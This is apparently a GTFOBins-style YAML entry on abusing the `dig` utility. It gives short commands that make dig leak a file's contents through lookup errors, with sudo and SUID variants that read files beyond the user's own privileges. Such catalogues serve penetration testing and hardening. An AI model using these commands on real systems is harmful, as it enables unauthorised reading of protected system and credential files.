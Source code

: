 description: Each input line is treated as a lookup query for the `dig` command and the output is corrupted with the result or errors of the operation, so this may not be suitable for binary files. Grepping for `DiG` might help to filter out unwanted content.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        dig -f $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo dig -f $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./dig -f $LFILE
---

